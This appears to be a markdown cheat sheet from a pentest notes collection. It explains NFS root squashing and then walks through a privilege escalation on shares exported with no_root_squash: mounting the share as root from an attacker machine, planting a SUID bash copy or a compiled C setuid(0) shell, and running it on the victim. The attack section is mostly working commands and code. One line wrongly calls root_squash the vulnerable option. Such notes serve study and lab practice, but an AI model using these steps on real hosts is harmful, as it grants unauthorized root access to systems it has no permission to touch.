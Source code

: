 #### What is NFS (Network File Shares)
The **Network File Sharing (NFS)** protocol in Linux systems ***allows users to share files, directories, and systems over a network***. NFS enables users to ***access remote systems locally*** when mounted and transfer files to and from machines.

#### NFS Shares
**List NFS shares exported by the target**
```bash
showmount -e <target-ip>
```
- Result can be mounted by any user on the internet.

#### Confirm the Configuration of the NFS server
```bash
cat /etc/exports
```
- `root_squash:` this options is **vulnerable**.

#### Root Squashing
**Root squashing** is an NFS security feature that ***prevents remote root users from having root access on mounted file shares***. Instead, their ***privileges are downgraded*** to the low-privilege `nobody` user, ensuring they can't modify files as root. However, if the NFS share is configured with `no_root_squash`, ***root squashing is disabled***, allowing remote root users full access to the share which can pose a security risk.

#### Privilege Escalation
**Mounting NFS Shares**
To exploit an NFS share with `no_root_squash` enabled, you ***mount the share from your kali machine as root***, giving you ***root-level access*** to the target's shared directory. By mounting it locally (e.g., to `/tmp/<foldername>`), any file operations you perform are reflected directly on the target system's `/usershare` directory.

**Attacker Machine**
`root is required for this task.`
```bash
sudo su
mkdir /tmp/<foldername>
```

**Mount the NFS share onto your directory**
```bash
mount -t nfs <target-ip>:/share /tmp/<foldername>
```

Now, any files you add to `/tmp/<foldername>` will be automatically added to the `/usershare` folder on the target.
- Create a test file inside `/tmp/<foldername>/test`.
- You should see a test file inside `/usershare` on the target machine.

`If there are no files in the directory, there's no privilege escalation route. However, follow the below ...`

#### SUID Binaries
**Move to the mounted directory on your local machine**
```bash
cd /tmp/<foldername>
```

**Copy the `/bin/bash` binary to this directory to launch a shell on the remote system**
```bash
cp /bin/bash ./bash
```

`Using your system's **default Bash binary** may not be compatible with all targets. In that case, create your own binary.`

**C script that launches a shell as the root user (UID 0)**

```c
#include <stdlib.h>
#include <stdio.h> 
#include <sys/types.h> 
#include <unistd.h>
int main(void) { 
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

**Compile the code into an executable**
```bash
gcc -o bash bash.c
```

**Ensure the binary is executable and grant it SUID permissions**
```bash
chmod +x bash
chmod +s bash
```

**Victim Machine**
```bash
cd /usershare
ls -la bash # confirm the file permissions remain the same
```

**Run the Binary**
```bash
./bash -p
```


